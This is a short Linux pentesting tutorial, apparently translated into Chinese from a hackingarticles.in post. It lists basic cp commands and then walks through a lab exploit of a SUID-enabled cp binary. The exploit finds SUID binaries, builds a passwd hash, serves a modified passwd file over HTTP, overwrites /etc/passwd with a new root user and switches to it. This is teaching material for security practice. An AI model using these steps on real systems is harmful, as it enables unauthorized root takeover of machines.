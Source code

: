 ## cp Privilege Escalation

`cp --help`

### Copy single file to the destination

`cp source.txt destination.txt`

### Copy multiple files to a directory

`cp a b c d.txt demo/`

### Copy source directory to the destination

`cp -R dir1 dir2`

### Interactive prompt

`cp -i demo.txt author`

### Backup a file

`cp -b demo.txt demo_bp.txt`

### Copying using  * wildcard

`cp *.txt folder`

### Force copy

`cp -f test1.txt test2.txt`

### SUID Lab setups for Privilege Escalation [^1]

```bash
which cp
chmod u+s /bin/cp
ls -la /bin/cp
```

### Exploiting SUID

`ssh test@xxx.xxx.x.xx`

`find / -perm -u=s -type f 2>/dev/null` [^2]

`openssl passwd -1 -salt ignite pass123` [^3]

`python -m SimpleHTTPServer`

```bash
# 在本地主机上开启8000端口后，在目标主机上使用 `wget` 下载添加新用户后的 `passwd` 文件
cd /tmp
wget http://192.168.0.16:8000/passwd
# 这里其实不必传输passwd文件从本机到目标主机（test用户可以在某个目录下具有写权限的前提下，也就是说可以直接在目标主机上修改passwd副本）
# 在使用test用户（没有root权限）登录目标主机时，使用`cp`命令将`/etc/passwd`文件复制到`/tmp`下，使用`echo "chiya:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd`添加到文件里，然后再替换掉系统中原来的文件
```

```bash
# 使用 `cp` 命令，将源文件的内容复制到目标文件
cp passwd /etc/passwd
tail /etc/passwd
# chiya:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```

```bash
su chiya
password: pass123
id
```



[原文](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/)

---

[^1]: `SUID`：`Set User ID`是一种权限类型，允许用户使用指定用户的权限执行文件。假设我们以非root用户身份访问受害者的计算机，并且我们发现了`suid`位启用的二进制文件，那么这些文件/程序/命令可以使用root权限运行
[^2]: 使用 `find` 命令找出具有 SUID 权限的二进制文件
[^3]: `cp` 命令具有 SUID权限，因此我们尝试通过在 `/etc/passwd`文件中注入新用户来升级到root权限